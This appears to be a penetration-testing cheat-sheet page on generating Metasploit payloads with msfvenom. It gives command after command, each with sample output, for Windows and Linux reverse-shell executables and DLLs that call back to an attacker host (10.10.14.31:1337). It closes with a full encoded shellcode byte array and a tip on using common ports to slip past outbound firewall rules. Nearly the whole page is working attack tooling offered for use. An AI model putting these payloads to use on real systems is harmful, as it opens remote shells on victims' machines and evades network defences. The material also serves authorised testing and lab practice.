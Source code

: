```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["Code Execution", "Metasploit", "Firewall", "Payload", "RCE", "Dll Hijacking", "Shellcode", "Reverse Shell", "Msfconsole", "Msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 EXITFUNC=thread > rev.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

```console {class="sample-code"}
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f elf > rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.31 LPORT=1337
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor chosen with final size 551
Payload size: 551 bytes
Final size of python file: 3088 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xc4\x65\xf0"
shellcode += b"\xfa\xa2\xb7\x5f\x27\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x38\x2d\x73\x1e\x52"
shellcode += b"\x5f\x93\x27\xc4\x65\xb1\xab\xe3\xe7\x0d\x76"
shellcode += b"\x92\x2d\xc1\x28\xc7\xff\xd4\x75\xa4\x2d\x7b"
shellcode += b"\xa8\xba\xff\xd4\x75\xe4\x28\xc1\x33\xea\x3c"
shellcode += b"\x2d\x77\x8c\x6a\x47\xb0\xe8\xff\x6e\xe7\x68"
shellcode += b"\x59\x91\x86\xa0\x9b\x7f\x66\x05\xac\xfd\xbb"
shellcode += b"\xa3\x76\xbd\xca\x96\x2d\x7b\xa8\x82\xf6\x0e"
shellcode += b"\xac\x86\x59\xb8\xfb\x72\xd1\xde\x5f\xdc\x6e"
shellcode += b"\xf2\xf5\x27\xc5\x5f\x27\xc4\xee\x70\x72\xa2"
shellcode += b"\xb7\x5f\x6f\x41\xa5\x84\x9d\xea\xb6\x8f\xac"
shellcode += b"\x8c\x7d\xa0\xbe\x29\xf7\x7f\x6e\xc5\xb5\x13"
shellcode += b"\xac\xea\x48\x96\x66\x4f\x51\x78\xb2\xa3\x61"
shellcode += b"\x12\x16\x0d\x2d\xc1\x3a\xe3\x76\x96\x2a\x68"
shellcode += b"\x24\xf1\x3b\x9a\x57\x2a\xd6\x88\x66\xbc\xde"
shellcode += b"\xaa\xf2\x66\xf6\xb1\xbd\xa8\xbe\x29\xf7\x7b"
shellcode += b"\x6e\xc5\xb5\x96\xbb\x29\xbb\x17\x63\x4f\x25"
shellcode += b"\xec\xb3\xa3\x67\x1e\xac\xc0\xed\xb8\xfb\x72"
shellcode += b"\xf6\x07\x66\x9c\x3b\xa9\xa0\xe3\xef\x1e\x7e"
shellcode += b"\x85\x3f\xb8\x79\x4e\x97\x1e\x75\x3b\x85\xa8"
shellcode += b"\xbb\xfb\xed\x17\xac\xd6\x8c\xbb\x05\x5d\x48"
shellcode += b"\x02\x6e\x7a\x12\x83\xc8\xfd\x84\x6d\x27\xc4"
shellcode += b"\x24\xa6\xb3\x2b\x51\x17\xa6\x28\xc5\xf1\xfa"
shellcode += b"\xa2\xfe\xd6\xc2\x8d\xd9\xf2\xfa\xa7\x8e\x55"
shellcode += b"\x2d\xca\x7a\xb1\xae\xeb\x3e\xbb\x6b\x4d\x94"
shellcode += b"\xb1\x40\xee\xc0\x79\x20\x3b\xb0\xbc\x73\x48"
shellcode += b"\xdf\x5e\x26\xc4\x65\xa9\xbb\x18\x9e\xdf\x4c"
shellcode += b"\xc4\x9a\x25\x90\xa8\xf6\x01\x77\x94\x28\xc1"
shellcode += b"\x33\xef\x86\x9f\x6f\x3b\xa5\xb8\x73\x60\xff"
shellcode += b"\xa0\xe7\x8c\xec\x31\xbb\x18\x5d\x50\xf8\x24"
shellcode += b"\x9a\x25\xb2\x2b\x70\x35\x37\x85\x3d\xbc\x73"
shellcode += b"\x40\xff\xd6\xde\x85\xdf\x69\x5f\xd6\xd6\xa0"
shellcode += b"\xf2\x41\xa5\x84\xf0\xeb\x48\x91\x52\x21\x8d"
shellcode += b"\x63\xfa\xa2\xb7\x17\xa4\x28\x75\xb8\x73\x40"
shellcode += b"\xfa\x6e\xee\xae\x61\xb1\xa2\xea\x3e\xa6\x66"
shellcode += b"\x7e\x67\x29\x32\xfd\x48\x8a\xa4\x3c\x65\x8e"
shellcode += b"\xaf\xea\x34\x9b\x07\x9a\xec\x06\x90\xe2\xf6"
shellcode += b"\x06\x4f\xc4\x75\xf0\xfa\xe3\xef\x17\xae\x36"
shellcode += b"\x2d\xc1\x33\xe3\x0d\x07\x83\x97\x80\x0f\x2f"
shellcode += b"\xea\x3e\x9c\x6e\x4d\xa2\xbd\xcb\x6b\xfe\xd6"
shellcode += b"\xd7\x8c\xec\x2a\xb2\x2b\x4e\x1e\x9d\xc6\xbc"
shellcode += b"\x38\xa5\x5d\x62\xdc\xdf\xc4\x18\xd8\xa2\xe3"
shellcode += b"\xe0\x06\x4f\xc4\x25\xf0\xfa\xe3\xef\x35\x27"
shellcode += b"\x9e\x24\x4a\xf1\x8d\xb8\x6f\xd8\x11\x32\xa9"
shellcode += b"\xbb\x18\xc2\x31\x6a\xa5\x9a\x25\xb3\x5d\x79"
shellcode += b"\xb6\x1b\x3b\x9a\x0f\xb2\xa3\x74\x17\x0e\x02"
shellcode += b"\x2d\x75\x0c\xd7\x03\x1e\xd8\x23\x3d\x9a\xfa"
shellcode += b"\xfb\xfe\x98\xe5\x34\xd0\x52\xac\x5d\x62\x5f"
shellcode += b"\x27"
```

{{< /tabcontent >}}

